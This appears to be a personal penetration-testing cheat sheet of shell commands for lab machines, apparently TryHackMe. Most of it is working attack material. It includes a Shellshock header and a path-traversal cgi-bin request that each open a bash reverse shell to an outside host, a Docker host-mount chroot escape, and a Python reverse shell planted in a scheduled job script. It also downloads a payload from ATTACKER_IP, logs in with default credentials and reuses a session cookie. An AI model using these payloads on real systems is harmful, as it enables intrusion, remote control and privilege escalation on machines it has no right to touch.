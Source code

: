 # Docker #

docker images

docker run -v /:/mnt --rm -it bash chroot /mnt bash

# Head #

head asd.txt -c 9

# Curl #

curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.9.1.69/4485 0>&1' http://10.10.183.66/cgi-bin/test.cgi

curl 'http://10.10.90.19/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; bash -i >& /dev/tcp/10.9.0.229/4485 0>&1' -H "Content-Type: text/plain"

curl -s http://www.team.thm/scripts/script.old

curl -s 10.10.83.164 -D header.txt

curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/ -i

curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/

curl -H 'Cookie: PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/

curl -u admin:admin http://<SERVER_IP>:<PORT>/

curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/

curl 'http://<SERVER_IP>:<PORT>/search.php?search=le' -H 'Authorization: Basic YWRtaW46YWRtaW4='

curl  http://ATTACKER_IP:PORT/payload.php --output payload.php

# GPG - GPGToJohn #

gpg --import priv.key

gpg --decrypt-file CustomerDetails.xlsx.gpg

gpg2john private.asc > pgp.hash

# Cat Writing #

cat > /home/toby/jobs/cow.sh << EOF
#!/bin/bash

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.69",4485));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
EOF
